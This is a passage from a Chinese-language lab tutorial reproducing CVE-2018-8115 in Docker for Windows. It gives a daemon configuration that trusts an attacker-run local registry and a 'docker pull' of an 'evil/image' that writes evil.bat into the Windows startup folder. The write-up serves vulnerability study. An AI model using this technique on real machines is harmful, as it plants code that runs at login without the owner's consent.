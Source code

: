

随后将下面的配置信息粘贴进文本框中并单击 `Apply`，注意，下面标记的两个框中的 `IP地址` 是刚才搭建的 Registry 主机的 `IP地址`，需根据实际情况替换：

```json
{
  "registry-mirrors": [
    "https://hub-mirror.c.163.com/"
  ],
  "insecure-registries": [
    "192.168.33.128:5000"
  ],
  "debug": true,
  "experimental": true,
  "allow-nondistributable-artifacts": [
    "192.168.33.128:5000"
  ]
}
```

![ ](/images/CVE-2018-8115漏洞复现/04b4d28c-fcfd-11ea-9b5b-80fa5b238e56.png " ")



然后以管理员权限打开命令行或者 PowerShell 窗口，输入 `docker pull 192.168.33.128:5000/evil/image:latest`，即可看见自启目录中被写入了 `evil.bat` 文件。注意这个 `IP地址` 也得根据实际情况替换：
